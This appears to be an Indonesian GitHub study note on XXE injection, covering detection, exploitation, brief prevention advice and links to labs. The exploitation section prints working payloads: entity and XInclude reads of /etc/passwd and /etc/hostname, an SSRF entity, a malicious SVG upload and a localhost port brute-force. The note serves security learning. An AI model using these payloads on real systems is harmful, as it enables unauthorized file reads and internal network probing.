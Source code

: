 # XXE :kiss:

<p align="center"><img src="https://user-images.githubusercontent.com/52058660/90031186-25536580-dce7-11ea-9da9-dcc9b4473bf7.jpg" width="500"></p>

Sebelum memahami XXE, maka kita harus memiliki pengetahuan dasar XML, DTD dan entity. Tools yang digunakan adalah Burpsuite, lebih mantap lagi jika menggunakan Burp Collaborator (*berbayar*).
## Detection
  - [Cari](https://christian-schneider.net/GenericXxeDetection.html) aplikasi yang mengirimkan data dalam format XML (XML endpoint)
  - Cari web page yang request header `Content-Type`-nya adalah `text/xml` atau `application/xml`
  - Cari web service yang mengunakan XML seperti RSS, SOAP
  - Cari file upload function
  - Cara cepat menemukan XML endpoint adalah automasi
  
## Exploitation
  - Retrieve Files. Inject [payload](https://github.com/payloadbox/xxe-injection-payload-list) ke bagian `!DOCTYPE`
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
    ```
  - Exploiting to perform Server Side Request Forgery (SSRF). Sama seperti cara di atas tapi protokol yang digunakan adalah `http` dilanjutkan dengan ip server target
    ```
    <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “http://XXX.XXX.XXX.XXX”> ]>
    ```
  - Gunakan `XInclude` jika tidak bisa memodifikasi `!DOCTYPE`. Harap baca SOAP dan XML namespace untuk pemahaman lebih lanjut. 
    ```
    <foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
    ```
  - Exploiting via file upload. Caranya adalah dengan membuat file SVG yang mengandung exploit xxe
    ```
    <?xml version="1.0" standalone="yes"?>
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
    <svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
    <text font-size="16" x="0" y="16">&xxe;</text>
    </svg>
    ```
  - *Blind XXE vulnerabilities arise where the application is vulnerable to XXE injection but does not return the values of any defined external entities within its responses*. Sangat manjur jika menggunakan Burp Collaborator.
  

  - Modifikasi `content-type` pada POST request header.  Ketika respons adalah `200 OK` dan menghasilkan nilai yang sama, maka kita bisa menyelipkan payload pada requesnya
      ```
      POST /action HTTP/1.0
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 7
      foo=bar
      ```
    dimodif dong
      ```    
      POST /action HTTP/1.0
      Content-Type: text/xml
      Content-Length: 52
      <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
      ```
  - Test local machine port (gunakan burp intruder). Brute port dari ip local, lalu cek bergantian `http` dan `https`
    ```
    <!DOCTYPE xxe SYSTEM "http://127.0.0.1:§port§/">
    <!DOCTYPE xxe SYSTEM "https://127.0.0.1:§port§/">
    ```
  - Exploiting [RSS validator](https://taind.wordpress.com/2017/12/25/root-me-xml-external-entity/). jika tidak punya server sendiri untuk upload file XML, gunakan [filebin](https://filebin.net/)

## Prevention
  - Disable DTD
  - Disable entity saja
  - Dissable XInclude
  
## Tips and Trics
  - Switch `content-type` menjadi `text/xml` atau `application/xml` lalu analisa respon errornya
  - Gunakan Burp Collaborator untuk detect blind XXE atau, gunakan remote server untuk mendeteksi blind XEE
  - Cari API endpoint
  - G

## Lab
  - [Portswigger Web Security Academy - XXE injection](https://portswigger.net/web-security/xxe)
  - [Vulnhub - XXE Lab: 1](https://www.vulnhub.com/entry/xxe-lab-1,254/)

## Online Resource
  - [Blind XXE - Hunting in the Dark](https://blog.zsec.uk/blind-xxe-learning/)
  - [XML External Entities ft. JohnHammond](https://www.youtube.com/watch?v=gjm6VHZa_8s&t=497s)
  - [From blind XXE to root-level file read access](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)
  - [How we got read access on Google’s production servers](https://blog.detectify.com/2014/04/11/how-we-got-read-access-on-googles-production-servers/)
  - [Identifying Xml eXternal Entity vulnerability (XXE)](https://blog.h3xstream.com/2014/06/identifying-xml-external-entity.html)
  - [List of XML markup languages](https://en.wikipedia.org/wiki/List_of_XML_markup_languages)
  - [Finding and Exploiting XXE – XML External Entities Injection](https://resources.infosecinstitute.com/finding-and-exploiting-xxe-xml-external-entities-injection/#gref)
  - [Generic XXE Detection](https://christian-schneider.net/GenericXxeDetection.html)
  - [Advice From A Researcher: Hunting XXE For Fun and Profit](https://www.bugcrowd.com/blog/advice-from-a-bug-hunter-xxe/)


